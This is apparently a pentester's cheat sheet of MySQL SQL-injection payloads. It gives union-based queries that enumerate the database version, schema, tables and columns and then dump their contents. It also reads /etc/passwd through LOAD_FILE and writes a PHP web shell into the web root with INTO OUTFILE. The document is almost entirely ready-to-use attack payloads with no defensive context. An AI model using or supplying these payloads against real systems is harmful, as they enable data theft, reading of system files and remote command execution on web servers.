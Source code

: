 
### mysql connect
```bash
mysql -h<host> -u"<username>" -p"<password>" [-e"<QUERY>"] <DATABASE>
```

### Get Number of Columns

```bash
SELECT 1,2,3 order by 3;#
```

### Get Version

```bash
# @@version 사용 가능
select 1,2,version();#
```

### Get Database Name

```bash
select 1,2,database();#
```

### Get Table Name

```bash
select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<DATABASE>";#
```

### Get Column Name

```bash
select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<DATABASE>" and table_name="<TABLE>";#
```

### Read a File

```bash
SELECT LOAD_FILE('/etc/passwd')
```

### Dump Data

```bash
union select 1,2, group_concat(<COLUMN>) from <DATABASE>.<TABLE>;#
```

### Create Webshell

```bash
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/<FILE>.php";
```

```bash
SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php" -- //
```